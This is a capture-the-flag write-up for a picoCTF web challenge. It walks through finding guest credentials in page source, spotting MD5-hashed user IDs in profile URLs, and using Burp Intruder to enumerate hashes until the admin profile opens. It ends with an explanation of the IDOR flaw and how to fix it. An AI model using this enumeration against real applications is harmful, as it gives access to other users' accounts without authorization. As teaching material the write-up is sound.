# Hashgate

**Category:** Web Exploitation
**Difficulty:** Medium
**Author:** Yahaya Meddy

---

## Challenge Description

In this challenge, we are given access to an organization’s portal. After logging in, users are redirected to their profile page.

The goal is to find a way into the admin profile and retrieve the flag.

The challenge hints were important:

* The ID is not checked as plain text.
* A one-way function is involved.
* There are about 20 employees in the organization.



---

## Initial Reconnaissance

I started by opening the instance in the browser. The application displayed a login page.


At first, no credentials were shown directly on the page. So I inspected the page source through Burp Suite.

In the HTML response, I found a useful comment containing valid guest credentials:

```html
<!-- Email: guest@picoctf.org Password: guest -->
```



The leaked credentials were:

```text
Email: guest@picoctf.org
Password: guest
```

---

## Logging in as Guest

Using the leaked credentials, I logged in as the guest user.

```text
guest@picoctf.org : guest
```

After logging in, the application redirected me to the guest profile.



The guest profile displayed the following information:

```text
Access level: Guest (ID: 3000).
Insufficient privileges to view classified data.
Only top-tier users can access the flag.
```



This revealed an important value:

```text
Guest ID = 3000
```

---

## Analyzing the Profile URL

The profile URL was not using the plain user ID directly. Instead, it looked like this:

```http
GET /profile/user/e93028bdc1aacdfb3687181f2031765d HTTP/1.1
```



The value in the URL was:

```text
e93028bdc1aacdfb3687181f2031765d
```

Since the challenge hint mentioned a one-way function, this value looked like a hash.

The hash length was 32 hexadecimal characters, which strongly suggested MD5.

---

## Confirming the Hash Type

To confirm this, I hashed the guest ID `3000` using MD5.

Using CyberChef:

```text
Input: 3000
Operation: MD5
Output: e93028bdc1aacdfb3687181f2031765d
```



The result matched the hash used in the URL.

So the application was using:

```text
/profile/user/MD5(user_id)
```

For the guest account:

```text
MD5(3000) = e93028bdc1aacdfb3687181f2031765d
```

This means the URL was not secure. It was only hiding the user ID with MD5.

---

## Generating Candidate Hashes

The second hint said that there were about 20 employees in the organization.

Since the guest ID was `3000`, I tested nearby employee IDs:

```text
3000 → 3020
```

I used CyberChef with the following recipe:

```text
Fork
MD5
```

The input was:

```text
3000
3001
3002
3003
...
3020
```



This generated a list of MD5 hashes for all candidate employee IDs.

I saved the generated hashes into a file to use them as Burp Intruder payloads.



---

## Burp Intruder Enumeration

Next, I sent the guest profile request to Burp Intruder.

The original request was:

```http
GET /profile/user/e93028bdc1aacdfb3687181f2031765d HTTP/1.1
Host: crystal-peak.picoctf.net
```

I selected only the hash part as the payload position:

```http
GET /profile/user/§e93028bdc1aacdfb3687181f2031765d§ HTTP/1.1
```



Then I loaded the 21 generated MD5 hashes as a simple list payload.

Burp Intruder was configured with:

```text
Attack type: Sniper
Payload type: Simple list
Payload count: 21
```



---

## Finding a Valid Hidden Profile

Most of the tested hashes returned:

```http
404 User not found
```

However, two hashes returned:

```http
200 OK
```

The first one was the guest user:

```text
MD5(3000) = e93028bdc1aacdfb3687181f2031765d
```

The second interesting response was:

```text
5a01f0597ac4bdf35c24846734ee9a76
```



This hash corresponds to:

```text
MD5(3012) = 5a01f0597ac4bdf35c24846734ee9a76
```

The response length was different from the guest profile, which indicated that this was a different valid user.

---

## Accessing the Admin Profile

I opened the valid hidden profile using the discovered hash:

```http
GET /profile/user/5a01f0597ac4bdf35c24846734ee9a76 HTTP/1.1
```

The server responded with the admin profile:

```text
Welcome, admin! Here is the flag: picoCTF{...}
```


For the public writeup, the flag is redacted:

```text
picoCTF{...PWNED...}
```

---

## Vulnerability Explanation

The vulnerability is an insecure direct object reference hidden behind hashing.

Instead of exposing user IDs directly, the application used MD5 hashes of the user IDs in the profile URL.

For example:

```text
User ID: 3000
MD5(3000): e93028bdc1aacdfb3687181f2031765d
```

The profile route looked like:

```text
/profile/user/MD5(user_id)
```

This is not a secure access control mechanism.

MD5 is deterministic, meaning the same input always produces the same output:

```text
MD5(3000) is always e93028bdc1aacdfb3687181f2031765d
MD5(3012) is always 5a01f0597ac4bdf35c24846734ee9a76
```

Because the guest profile revealed the guest ID as `3000`, and the hint said there were about 20 employees, it was possible to generate hashes for nearby IDs and enumerate valid profiles.

The application should not rely on obscurity or hashed IDs to protect admin resources. Proper server-side authorization checks should be enforced.

---

## Attack Flow

```text
Open login page
    → Inspect source code
        → Find guest credentials
            → Login as guest
                → Observe guest ID 3000
                    → Confirm URL uses MD5(3000)
                        → Generate MD5 hashes for IDs 3000–3020
                            → Enumerate with Burp Intruder
                                → Find valid hash for ID 3012
                                    → Access admin profile
                                        → Retrieve flag
```

---

## Tools Used

* Burp Suite
* CyberChef
* Browser DevTools
* CrackStation / MD5 lookup
* Linux terminal

---

## Key Takeaways

* Hidden IDs are not the same as secure authorization.
* Hashing predictable IDs does not prevent enumeration.
* MD5 is deterministic and easy to brute-force for small ID ranges.
* Always enforce authorization checks on the server side.
* Burp Intruder is useful for testing predictable object references.
* Challenge hints can reveal the intended attack path.

---

## Final Flag

```text
picoCTF{...PWNED...}
```
